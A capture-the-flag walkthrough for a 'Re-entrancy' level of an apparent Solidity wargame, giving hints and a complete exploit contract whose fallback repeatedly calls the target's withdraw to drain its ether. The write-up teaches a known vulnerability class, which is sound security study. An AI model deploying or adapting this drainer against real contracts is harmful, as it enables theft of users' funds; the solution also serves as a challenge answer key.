# 10 - Re-entrancy

### Hints

<details>

<summary>Hint One</summary>

As the name suggests, this level involves exploiting a re-entrancy vulnerability. In order to do this, you will first need to send some ether to the challenge contract’s donate function to satisfy the `balances[msg.sender] >= _amount` condition in the withdraw function where the re-entrancy vulnerability resides. Keep in mind that the nature of a re-entrancy exploit requires that you use a proxy contract for your interactions, and the address of this contract is the `msg.sender` whose balance is being checked.

</details>

<details>

<summary>Hint Two</summary>

When you call the `withdraw` function on the challenge contract it sends ether to your address **before** it decrements the address’ account balance. If this address is a contract, and the contract has a fallback function triggered when it receives ether, this fallback function will run **before** the challenge contract decrements the address balance. This will allow you to “re-enter” the code by calling the contract’s `withdraw` function again. And again. And again…

</details>

<details>

<summary>Hint Three</summary>

Your own contract’s fallback function that implements the re-entrancy exploit should contain a conditional that checks whether to call `withdraw` again or exit the loop. You will also need to ensure you include sufficient gas in your initial transaction to pay for all of these subsequent function calls.

</details>

### Scripted Solution

```solidity
// SPDX-License-Identifier: MIT

pragma solidity 0.8.7;

interface IReentrance {
    function donate(address _to) external payable;

    function withdraw(uint _amount) external;

    function balanceOf(address _who) external view returns (uint balance);
}

contract ReentranceExploit {
    IReentrance private _reentranceContract;
    uint256 private _amountToWithdraw = 0;

    /**
     * Constructor sets `Reentrance` contract and its total balance in wei.
     */
    constructor(address reentranceContractAddress) payable {
        require(
            msg.value > 0,
            "ReentranceExploit: Contract must be deployed with ether for gas fees"
        );

        _reentranceContract = IReentrance(reentranceContractAddress);
    }

    /**
     * Calls `Reentrance` contract's `donate` to add provided `amount` to this
     * contract's balance.
     */
    function donate() external payable {
        require(
            msg.value > 0,
            "ReentranceExploit: Function must be called with non-zero value"
        );

        _reentranceContract.donate{value: msg.value}(address(this));
    }

    /**
     * Calls `Reentrance` contract's `withdraw` with provided `amount`.
     *
     * Note: this should be called with the exact amount donated to this
     * contract address to initiate the re-entrancy exploit.
     */
    function withdraw(uint256 amount) external {
        _amountToWithdraw = amount;
        _reentranceContract.withdraw(amount);
    }

    /**
     * Fallback handles re-entrancy attack.
     *
     * This receive function will call `withdraw` repeatedly to drain the total
     * amount of the remaining funds in the `Reentrance` contract.
     */
    fallback() external payable {
        if (address(_reentranceContract).balance >= _amountToWithdraw) {
            _reentranceContract.withdraw(_amountToWithdraw);
        }
    }
}
```
